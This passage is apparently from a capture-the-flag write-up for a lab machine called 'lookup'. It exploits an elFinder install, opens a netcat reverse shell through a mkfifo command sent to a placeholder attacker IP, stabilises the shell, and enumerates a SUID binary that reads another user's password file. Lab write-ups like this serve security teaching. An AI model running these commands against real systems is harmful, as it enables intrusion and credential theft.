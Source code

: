    `python2 code_source.py http://files.lookup.thm/elFinder/`


![Desktop View](/after-exe-vul.webp){: width="1200" height="450" }

1. Now, let's obtain the reverse shell. 

```console
curl -s 'http://files.lookup.thm/elFinder/php/SecSignal.php' --get --data-urlencode 'c=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP_Attacker> PORT >/tmp/f'
```

```console
nc -lvnp <LPORT>
.....

$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ export TERM=xterm
<kup.thm/public_html/elFinder/php$ export TERM=xterm
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ ^Z
....

$ stty raw -echo; fg
[2]  - continued  nc -lvnp 

www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## **Reverse-engineering the SUID Binary**

```console
www-data@lookup:/var/www$ find / -perm -u=s 2>/dev/null
...
/usr/sbin/pwm
...
```

Running it, the binary claims to be running the id command to find the username, then attempts to open the /home/<username>/.passwords file. In our case, it fails because the /home/www-data/.passwords file does not exist.

```console
www-data@lookup:/var/www$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```
But checking the /home/think/, we find that the .passwords file exists there. Therefore, we might be able to use the pwm binary to read this file and discover the password for the think user.

```console
www-data@lookup:/var/www$ ls -la /home/think/
...
-rw-r----- 1 root  think  525 Jul 30  2023 .passwords
...
```
First, let’s download the pwm binary so we can reverse engineer it. To do this, we can simply copy it to one of the web application’s directories and download it from the web server.
